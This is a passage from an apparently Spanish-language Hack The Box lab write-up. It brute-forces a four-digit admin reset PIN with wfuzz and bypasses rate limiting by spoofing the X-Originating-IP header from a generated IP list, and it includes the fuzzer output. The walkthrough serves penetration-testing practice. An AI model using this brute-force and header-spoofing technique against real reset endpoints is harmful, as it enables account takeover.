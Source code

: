 - Existen formas de hacer `Bypass` <https://book.hacktricks.xyz/pentesting-web/rate-limit-bypass> ya que al parecer si ve que estamos tramitando muchas peticiones desde una misma IP nos bloquea, vamos abusar de las cabeceras.

- El problema de enviar esta petición es que se va a dar cuenta de que no es dinamico.

```bash
❯ wfuzz -c -t 200 -z range,0000-9999 -H "X-Originating-IP: 127.0.0.1" -d 'name=admin&pin=FUZZ' -H "Cookie: XSRF-TOKEN=eyJpdiI6ImpCWXVEcURCbGRBMUxCZ3d2SjZrSlE9PSIsInZhbHVlIjoiY09uZG1JUGhpMnZtZFlwRDMzQzd2R2hoenFlZ0JwMzJhb3VsTzR0NmRPUk8vdm5DRkszMENJMHdSUHdhRUtEU0l3Y1JJbmMzY3FyRGtHQ0pUb2FiRXU4Q0ZpdWNueEhvemgwSkE3VTNDZTBKYVhFUDNQNU9MaXV1emJlS0FBekoiLCJtYWMiOiJjY2NkM2ZlNWEzNzU3MGEyNjZkNDNlY2RmYmE2MGEyMDFjZDU4MjlmNTRhYWQ0YTU0ZDRkYzc3Mjk1MDIwYTBmIiwidGFnIjoiIn0%3D; laravel_session=eyJpdiI6InhFWnVudXJLVmhGM1IyWVFJbER0YkE9PSIsInZhbHVlIjoiWjIreGdWZGVoZDJtWmRiY0NGaEhraldmZE5KYVhuYzFIaWorWjQ4RXhUWitITTdnYk5HQW9uR0VTdjJVYVBjWEdLTXA3R3JzQjJIcVBCNzc5WmdoWFdDRVJXWEFHU1JzWTU0OHNlTXBIOVRJcVVuN0Q4eHRMUTRhSnB2eGQxdzkiLCJtYWMiOiIyZDQ2ZDhjZWQ0NTliY2M3NjQwNzE2ZjY5MDkxZGZkYjlkMTNkOTRkOTU1ODYwN2ZkZjZlMDljYTk5ZTE4N2U2IiwidGFnIjoiIn0%3D" http://10.10.11.159/api/resettoken
```

- Tendremos que crear un diccionario con diferentes `IPs`.

- Mediante 2 bucles aninados vamos a crear el diccionario con las `IPs`.

```bash
❯ for i in {0..40}; do for j in {0..253}; do echo "10.10.$i.$j"; done; done > IPs
❯ wc -l IPs
10414 IPs
```

- Si lo ejecutamos vemos que no esta iterando.

```bash
❯ wfuzz -c -t 200 -z range,0000-9999 -w /home/miguelrega7/Hackthebox/altered/content/IPs -H "X-Originating-IP: FUZ2Z" -d 'name=admin&pin=FUZZ' -H "Cookie: XSRF-TOKEN=eyJpdiI6ImpCWXVEcURCbGRBMUxCZ3d2SjZrSlE9PSIsInZhbHVlIjoiY09uZG1JUGhpMnZtZFlwRDMzQzd2R2hoenFlZ0JwMzJhb3VsTzR0NmRPUk8vdm5DRkszMENJMHdSUHdhRUtEU0l3Y1JJbmMzY3FyRGtHQ0pUb2FiRXU4Q0ZpdWNueEhvemgwSkE3VTNDZTBKYVhFUDNQNU9MaXV1emJlS0FBekoiLCJtYWMiOiJjY2NkM2ZlNWEzNzU3MGEyNjZkNDNlY2RmYmE2MGEyMDFjZDU4MjlmNTRhYWQ0YTU0ZDRkYzc3Mjk1MDIwYTBmIiwidGFnIjoiIn0%3D; laravel_session=eyJpdiI6InhFWnVudXJLVmhGM1IyWVFJbER0YkE9PSIsInZhbHVlIjoiWjIreGdWZGVoZDJtWmRiY0NGaEhraldmZE5KYVhuYzFIaWorWjQ4RXhUWitITTdnYk5HQW9uR0VTdjJVYVBjWEdLTXA3R3JzQjJIcVBCNzc5WmdoWFdDRVJXWEFHU1JzWTU0OHNlTXBIOVRJcVVuN0Q4eHRMUTRhSnB2eGQxdzkiLCJtYWMiOiIyZDQ2ZDhjZWQ0NTliY2M3NjQwNzE2ZjY5MDkxZGZkYjlkMTNkOTRkOTU1ODYwN2ZkZjZlMDljYTk5ZTE4N2U2IiwidGFnIjoiIn0%3D" http://10.10.11.159/api/resettoken
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.11.159/api/resettoken
Total requests: 104140000

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                        
=====================================================================

000000001:   200        140 L    324 W      5644 Ch     "0000 - 10.10.0.0"                             
000000003:   200        140 L    324 W      5644 Ch     "0000 - 10.10.0.2"                             
000000016:   200        140 L    324 W      5644 Ch     "0000 - 10.10.0.15"                            
000000019:   200        140 L    324 W      5644 Ch     "0000 - 10.10.0.18"                            
000000007:   200        140 L    324 W      5644 Ch     "0000 - 10.10.0.6"                             
000000020:   200        140 L    324 W      5644 Ch     "0000 - 10.10.0.19"                            
000000018:   200        140 L    324 W      5644 Ch     "0000 - 10.10.0.17"                            
```